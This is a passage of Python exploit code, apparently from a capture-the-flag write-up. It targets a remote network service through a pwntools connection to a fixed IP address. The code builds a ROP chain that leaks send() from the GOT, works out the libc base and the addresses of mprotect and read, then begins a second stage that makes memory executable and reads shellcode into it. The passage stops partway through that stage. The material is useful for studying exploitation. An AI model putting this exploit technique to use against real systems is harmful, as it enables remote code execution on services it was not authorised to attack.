 ```
buf_2 += p32(0x8048700)   # send@plt
buf_2 += "CCCC"
buf_2 += p32(0x4)         # sockfd
buf_2 += p32(0x0804b064)  # send@got
buf_2 += p32(0x4)         # len
buf_2 += p32(0x0)         # flags
buf_2 += "D"*200

payload = buf_1 + buf_2

r = remote("110.10.212.130", 8889)

r.recvuntil("Select menu > ")
r.sendline("2")

r.recvuntil("Input Your Message : ")
r.send(payload)

r.recvuntil("Select menu > ")

r.sendline("3")
d = r.recv()

# receive leaked address of send()
leak_send = r.recv()

print "Leaked function:"
print hexdump(leak_send)

# use http://libcdb.com/ to get libc version on server. 
# in this case it's libc-2.19_16.so. we can then get
# offsets for send(), mprotect(), and read()
offset_send = 0x000ed450
offset_mprotect = 0x000e70d0
offset_read = 0x000dabd0

# calculate libc base and addresses of mprotect() and read()
libc_base = u32(leak_send) - offset_send
print "libc base:", hex(libc_base)

addr_mprotect = libc_base + offset_mprotect
print "mprotect :", hex(addr_mprotect)

addr_read = libc_base + offset_read
print "read :", hex(addr_read)

r.close()


# -- STAGE 2 mprotect() a location to rwx and call read() to get shellcode in there --

buf_2 = ""
buf_2 += p32(addr_mprotect)
buf_2 += p32(0x08048eed)    # pop esi; pop edi; pop ebp; ret; 
buf_2 += p32(0x0804b000)    # address to mprotect()
buf_2 += p32(0x100)         # size to mprotect
buf_2 += p32(0x7)           # rwx

buf_2 += p32(addr_read)
buf_2 += p32(0x08048eed)    # pop esi; pop edi; pop ebp; ret; 
buf_2 += p32(0x4)           # sockfd
buf_2 += p32(0x0804b004)    # read shellcode in here
buf_2 += p32(0x100)         # number of bytes to read
```